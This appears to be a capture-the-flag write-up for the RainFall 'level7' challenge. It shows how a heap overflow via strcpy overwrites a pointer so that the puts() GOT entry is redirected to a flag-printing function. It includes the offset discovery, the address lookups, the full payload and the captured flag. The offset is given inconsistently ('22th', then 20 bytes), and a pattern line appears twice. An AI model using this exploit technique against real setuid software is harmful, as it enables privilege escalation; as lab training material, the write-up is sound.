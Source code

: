 "7aA6" revert to "6Aa7" is 22th in "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4"

We are given a setuid binary that segfaults without parameters and prints ~~ when given two arguments:
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 arg
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 arg1 arg2
~~

From reverse engineering (via source.c), we know:
There's a hidden function m() that prints the flag.
The vulnerable code uses strcpy() on user inputs and allocates memory via malloc().
By carefully crafting our arguments, we can perform a heap-based overwrite of a function pointer.

Step 1: Understand the Vulnerability
Inside main(), the code does this (simplified):
```
char *a;
char *b[2];

if (argc == 3) {
    a = malloc(8);
    b[0] = malloc(8);
    a = strcpy(a, argv[1]);     // ✅ strcpy is vulnerable — no bounds check
    b[1] = malloc(8);
    b[1] = strcpy(b[1], argv[2]);

    fgets(c, 68, fopen("/home/user/level8/.pass", "r")); // stores flag in global 'c'
    puts("~~");
}
```
Here’s what we can exploit:
strcpy(a, argv[1]) will copy beyond the 8-byte buffer, overwriting b[1]’s pointer before it's initialized.
b[1] = strcpy(b[1], argv[2]) will then write to wherever b[1] now points — which we control.

Goal: Redirect the second strcpy() to overwrite a GOT entry (e.g., puts()), replacing it with the address of function m() (which prints the flag).

Step 2: Find the Offset
We use a cyclic pattern to discover how many bytes are needed to reach the b[1] pointer:

level7@RainFall:~$ ltrace ./level7 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4"
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---

"7aA6" revert to "6Aa7" is 22th in "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4"
So, after 20 bytes, we reach and control b[1].

Step 3: Locate the GOT Entry for puts()
We want to overwrite the GOT entry of puts():
level7@RainFall:~$ objdump -R level7 | grep puts
08049928 R_386_JUMP_SLOT   puts


Step 4: Find the Address of m()
(gdb) info functions m
0x080484f4  m
✅ Function m() is at 0x080484f4.

Step 5: Craft the Exploit
We want to:
Overflow a (first malloc) to overwrite the pointer for b[1] (next malloc).
Make b[1] point to puts() GOT.
When the second strcpy() writes, it writes the address of m() to that GOT entry.
Next time puts() is called, m() will run instead — and print the flag.

Final Payload:
./level7 \
  $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') \
  $(python -c 'print "\xf4\x84\x04\x08"')
"\x28\x99\x04\x08" = address of puts() GOT entry (0x08049928)
"\xf4\x84\x04\x08" = address of m() (0x080484f4)

Step 6: Exploit and Get the Flag
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

